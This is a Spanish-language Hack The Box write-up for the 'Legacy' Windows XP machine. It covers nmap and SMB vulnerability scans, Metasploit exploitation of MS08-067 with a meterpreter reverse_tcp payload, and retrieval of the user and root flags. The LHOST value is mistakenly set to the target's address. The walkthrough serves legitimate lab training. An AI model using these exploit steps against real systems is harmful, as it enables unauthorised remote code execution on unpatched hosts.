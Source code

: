 ```yaml
---
{"-publish":true,"permalink":"/src/site/notes/hack-the-box/machines/easy/legacy/","PassFrontmatter":true,"PassFrontmatter":true}
---
```



Empezamos haciendo un nmap a la maquina:

```
nmap -sCV -T5 10.10.10.4 -oN legacy_machine
```

![Pasted image 20250522172723.png](/img/user/imgs/Pasted%20image%2020250522172723.png)

Observamos que la maquina es un windows XP lo cual puede indicar que quiza es vulnerable a SMB, enumeramos:

```
nmap -p 445 --script smb-vuln* 10.10.10.4
```

![Pasted image 20250522173331.png](/img/user/imgs/Pasted%20image%2020250522173331.png)

Notamos que es vulnerable a CVE:CVE-2017-0143 ->EternalBlue y > **MS08-067: Microsoft Windows Server Service Vulnerability**

Descripcion: Esta vulnerabilidad critica del servicio de red de Windows (Server Service) que permite ejecucion remota de codigo (RCE) mediante paquetes especialmente creados enviados a traves del puerto 139 o 445 (SMB).

## Sistemas afectados:

- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008 (versiones antiguas)
- Windows 2000

## Impacto

- Permite ejecucion remoda de codigo sin autenticacion.
- Fue ampliamente explotada por gusanos como Conficker.

Vamos a probar explotar esta vulnerabilidad con metasploit:

## Explotacion con Metasploit:

- use exploit/windows/smb/ms08_067_netapi
- set RHOST 10.10.10.4
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 10.10.10.4
- run

![Pasted image 20250522174921.png](/img/user/imgs/Pasted%20image%2020250522174921.png)

Si queremos saber bajo que usuario se ejecuta el exploit potemos colocar en el **meterpreter> getuid**

![Pasted image 20250522175033.png](/img/user/imgs/Pasted%20image%2020250522175033.png)
Luego colocar un shell para ser mas interactivos y buscamos el user.txt y el root.txt

En este caso como estamos en Windows XP, los usuarios los encontramos en **dir C:\\Documents and Settings**

![Pasted image 20250522175409.png](/img/user/imgs/Pasted%20image%2020250522175409.png)

Vamos a john para el user.txt:

![[Pasted image 20250522175504.png\|Pasted image 20250522175504.png]]

Vamos a administrator para el root.txt:

![[Pasted image 20250522175546.png\|Pasted image 20250522175546.png]]

thanks.